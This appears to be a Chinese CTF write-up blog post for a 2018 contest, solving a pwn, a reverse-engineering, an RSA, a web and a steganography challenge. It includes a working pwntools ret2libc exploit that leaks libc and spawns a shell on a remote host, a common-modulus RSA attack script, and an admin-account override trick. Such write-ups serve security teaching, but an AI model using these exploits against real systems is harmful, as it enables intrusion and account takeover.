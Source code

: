 ```yaml
---
layout: post
title: "极客巅峰赛第二场"
date: 2018-08-27
categories: jekyll update
---
```

### 极客巅峰赛第二场

### pwn------PlainR2B

最简单的栈溢出，其中要注意的就是strcmp对比是以\x00为标志结束的，read这么0x34个字节，0x1c+8个字节就到ret地址，详细见exp。
```
from pwn import *

context(os='linux',arch='amd64',aslr = 'False')
local = 0
#log_level='debug'
if local:
	p = process("./pwn",env={'LD_PRELOAD':'./libc-2.23.so'})
	elf = ELF("./pwn")
	libc = ELF('./libc-2.23.so')
else:
	p = remote('117.50.60.184',12345)
	#p = remote('chall.pwnable.tw',10001)
	elf = ELF("./pwn")
	libc = ELF('./libc-2.23.so')


printf_plt = 0x8048460
printf_got = 0x804A018


p.sendline("AAA")
pause()
payload = "yes"+"\x00"*(28-3) + "\x00"*4 
payload += p32(printf_plt) + p32(0x80485CB) + p32(printf_got)
payload += "\x00"* (0x34 - len(payload))
p.send(payload)

p.recvuntil("true?")
printf = u32(p.recvn(4))
print hex(printf)
libc_printf = libc.symbols['printf']
libc_base = printf - libc_printf
print hex(libc_base)

system_addr = libc_base + libc.symbols['system']
binsh_addr = libc_base + next(libc.search('/bin/sh'))

payload = "yes"+"\x00"*(28-3) + "\x00"*4 
payload += p32(system_addr) + p32(0x80485CB) + p32(binsh_addr)
payload += "\x00"* (0x34 - len(payload))
p.sendline("aaa")
p.send(payload)

p.interactive()
```


### re------Antidbg

这题有IDA7.1的话就比较简单，可以直接F5。或者其中有一个地方把栈帧提高了0x100，IDA里面把他改成0就可以F5了。
然后还有一个坑就是，直接main里面进去的那个数组看到的是四个2，但是其实创建一个新线程的那个函数里面有一个判断会把那个数组里面的四个2变成2，3，6，7。
剩下就是直接爆破就OK了。

```
v5=[0x06, 0x0C, 0x01, 0x07, 0x0B, 0x00, 0x06, 0x02, 0x01, 0x06, 0x01, 0x07, 0x02, 0x0D, 0x05, 0x01,0x03, 0x03, 0x0D, 0x04, 0x03, 0x01, 0x00, 0x0D, 0x08, 0x08, 0x01, 0x02, 0x0D, 0x07, 0x00, 0x01,0x02,0x06,8,2,9,0,5,2,2,0xd]

b=[2,2,2,2,3,1,1,2,1,1,2,1,1,0,1,1,2,2,0,1,1,1,1,0,1,1,2,2,0,1,1,2,2,1,1,1,1,1,2,1,1,3,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0]
d=[2,3,6,7,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0]

res=[]
dd=[0,1,2,3,4,5,6,7,8,9,0xa,0xb,0xc,0xd,0xe,0xf]

for j in range(42):
	a=0
	for i in range(256):
		if (i >> 4) == d[b[j]] and (i & 0xF) == dd[v5[j]] :
			res.append(i)
			#print chr(i)
			# print i
			a=1
			break
	if a==0 :
		print "erro"
		break
s=''
for i in range(42):
	s=s+chr(res[i])
print s
```

### crypto----RSA

这道题是一个共模攻击，利用两个文件的n是一样的，只有e不一样，但是这两个e是互素的，就一定存在一个a，b使得乘积为1。

参考链接：https://www.jianshu.com/p/9b44512d898f

```
from libnum import *
import base64
from binascii import *
from Crypto.PublicKey import RSA
from Crypto.Util.number import *


c1 = int(hexlify(base64.b64decode(open("flag1.enc").read())),16)
c2 = int(hexlify(base64.b64decode(open("flag2.enc").read())),16)
key1 = RSA.importKey(open("pubkey1.pem").read())
key2 = RSA.importKey(open("pubkey2.pem").read())

e1 = key1.e
e2 = key2.e

n = key1.n
c1_invert = (xgcd(c1, n)[0]+n)%n
f = (pow(c1_invert , -xgcd(e1,e2)[0], n)*pow(c2, xgcd(e1,e2)[1],n))%n
print unhexlify(hex(f)[2:].strip("L"))

```
### WEB-----simple  sqli

这题目也算是够坑的了，说是sqli其实就没有sql注入，其实就是一个简单的mysql特性的问题。先创建一个admin用户，名字只要用`admin    	`(后面加几个空格)，就可以把admin这个用户覆盖掉，然后登陆就可以拿到flag

### misc ---- word

最简单的misc隐写题目，又是一波关注公众号，然后word文档里面的字体名字就是后面的flag。